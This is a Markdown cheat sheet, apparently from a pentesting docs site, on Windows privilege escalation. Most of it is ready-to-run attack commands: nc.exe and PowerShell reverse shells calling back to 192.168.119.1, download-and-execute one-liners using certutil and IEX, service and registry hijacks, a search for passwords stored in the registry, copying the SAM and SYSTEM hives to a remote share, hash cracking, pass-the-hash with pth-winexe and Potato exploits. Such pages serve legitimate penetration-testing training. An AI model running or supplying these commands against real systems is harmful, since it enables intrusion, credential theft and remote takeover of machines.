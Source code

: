 ```yaml
---
sidebar_position: 5
---
```


# Windows Privilege Escalation

This page provides a comprehensive guide for Windows privilege escalation and exploitation techniques, including practical commands, tools, and tips. Use these methods to enumerate, exploit, and escalate privileges on Windows systems during penetration testing.

## Shell Handling Techniques

### Reverse Shell

- **Basic reverse shell using nc.exe:**

```cmd
nc.exe 192.168.119.1 443 -e cmd.exe
```

- **From a network share:**

```cmd
\\192.168.119.1\a\bin\nc.exe 192.168.119.1 443 -e cmd.exe
```

- **PowerShell reverse shell:**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.119.1",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

- **Shorter PowerShell variant:**

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.1',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Basic System Enumeration

```cmd
whoami
systeminfo
```

Or from a share:

```cmd
\\192.168.119.1\a\bin\whoami.exe
```

## Downloading Tools

```cmd
certutil -URLcache -f http://192.168.119.1:8080/t/tool.exe tool.exe
powershell -c "Invoke-Webrequest -OutFile tool.exe -Uri http://192.168.119.1:8080/t/tool.exe"
powershell -c "IEX(New-Object Net.WebClient).downloadString('http://192.168.119.1:8080/t/tool.ps1')"
copy /B \\192.168.119.1\a\t\winPEASany.exe winPEASany.exe
copy /B \\192.168.119.1\a\bin\nc.exe nc.exe
copy /B \\192.168.119.1\a\bin\accesschk.exe accesschk.exe
copy /B \\192.168.119.1\a\bin\plink64.exe plink64.exe
```

## Automated Enumeration Tools

### winPEAS

- [winPEAS Download](https://github.com/carlospolop/PEASS-ng/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe)

```cmd
copy /B \\192.168.119.1\a\t\winPEASany.exe winPEASany.exe
./winPEASany.exe
```

### Seatbelt

- [Seatbelt Download](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Seatbelt.exe)

### SharpUp

- [SharpUp Download](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/SharpUp.exe)

### PowerUp

- [PowerUp.ps1](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1)

### Powerless.bat

- [Powerless.bat](https://raw.githubusercontent.com/gladiatx0r/Powerless/master/Powerless.bat)

### accesschk.exe

- [accesschk.exe (phackt)](https://github.com/phackt/pentest/tree/master/privesc/windows)
- [accesschk.exe (ankh2054)](https://github.com/ankh2054/windows-pentest/tree/master/Privelege)

## Service Exploitation

- [HackTricks: Windows Service Privilege Escalation](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services)

### Service Enumeration & Manipulation

```cmd
sc.exe qc <name>         # Query service config
sc.exe query <name>      # Query service status
sc.exe config <name> <option>= <value>  # Change config (note space after '=')
net start <name>         # Start service
net stop <name>          # Stop service
```

```cmd
winPEASany.exe quiet servicesinfo
```

### Insecure Service Properties

- [Modify Service Binary Path](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#modify-service-binary-path)

```cmd
accesschk.exe /accepteula -ucqv <name>
# Look for SERVICE_CHANGE_CONFIG, SERVICE_START, SERVICE_STOP
sc qc <name>
# Look for SERVICE_START_NAME : LOCALSYSTEM
sc config <name> binpath= "C:\rs.exe"
net stop <name>
net start <name>
```

### Unquoted Service Paths

- [Unquoted Service Paths](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#unquoted-service-paths)

```cmd
accesschk.exe /accepteula -uwdq "C:\Program Files\Some Folder\Service.exe"
# Look for RW BUILTIN\USERS
copy rs.exe "C:\Program Files\Some.exe"
net stop <name>
net start <name>
```

### Weak Registry Permissions

- [Modify Service Registry Permissions](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services-registry-modify-permissions)

```powershell
get-acl HKLM:\System\CurrentControlSet\services\<name> | Format-List
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\services\<name>
accesschk.exe /accepteula -ucqv <name>
# Look for SERVICE_CHANGE_CONFIG, SERVICE_START, SERVICE_STOP
reg query HKLM\System\CurrentControlSet\services\<name>
reg add HKLM\SYSTEM\CurrentControlSet\services\<name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
net stop <name>
net start <name>
```

### Insecure Service Executables

- [Service Executable Permissions](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#permissions)

```cmd
accesschk.exe /accepteula -quvw <path>
# Look for RW EVERYONE
accesschk.exe /accepteula -uvqc <path>
copy <path> c:\Temp
copy /Y rs.exe <path>
net stop <name>
net start <name>
```

### DLL Hijacking

- [DLL Hijacking](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking)

## Password & Credential Attacks

```cmd
winPEASany.exe quiet fileinfo userinfo
```

### Password Leak in Registry

```cmd
reg query HKLM /f password /t REG_SG /s
reg query HKCU /f password /t REG_SG /s
```

### Winexe (Remote Command Execution)

```cmd
winexe -U 'admin%adminpassword' //10.10.10.10 cmd.exe
winexe -U 'admin%adminpassword' --system //10.10.10.10 cmd.exe
```

### Saved Credentials

```cmd
winPEASany.exe quiet cmd windowscreds
cmdkey /list
runas /savecred /user:admin rs.exe
```

### Config Files

```cmd
winPEASany.exe quiet cmd searchfast fileinfo
dir /s *pass* == *.config
findstr /si password *.xml *.ini *.txt
```

### Security Password Manager

```cmd
copy C:\Windows\Repair\SAM \\192.168.119.160\a\
copy C:\Windows\Repair\SYSTEM \\192.168.119.160\a\
cd creddump7
python2 pwdump.py SYSTEM SAM
# admin:1004:aad3b4...:<hash>:::
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```

### Passing Password Hash

```cmd
pth-winexe -U 'admin:1004:aad3b4...:<hash>' //10.10.10.10 cmd.exe
pth-winexe --system -U 'admin:1004:aad3b4...:<hash>' //10.10.10.10 cmd.exe
```

## Potato Exploits

- [Potato Exploit Overview](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)

### Hot Potato

- [Potato.exe Download](https://github.com/foxglovesec/Potato/raw/master/source/Potato/Potato/bin/Release/Potato.exe)

```cmd
Potato.exe -ip 192.168.119.160 -cmd "rs.exe" -disable_exhaust true -disable_defender true -enable_httpserver true -enable_spoof true
```

## Kernel Exploits

- [Windows Kernel Exploits (SecWiki)](https://github.com/SecWiki/windows-kernel-exploits)
- [WES-NG: Windows Exploit Suggester](https://github.com/bitsadmin/wesng)

```cmd
systeminfo > \\192.168.119.160\a\systeminfo.txt
python wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only | less
```

## Active Directory (AD) Attacks

- [Active Directory Exploitation Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)

## Further Reading & References

- [Udemy: Windows Privilege Escalation](https://www.udemy.com/course/windows-privilege-escalation)
- [Japanese: Privilege Escalation Memo](https://kakyouim.hatenablog.com/entry/2020/03/14/031746#Windows)
- [Japanese: Privilege Escalation Exploit Windows](https://kakyouim.hatenablog.com/entry/2020/04/17/182049#Privilege-Escalation-IG-windows)
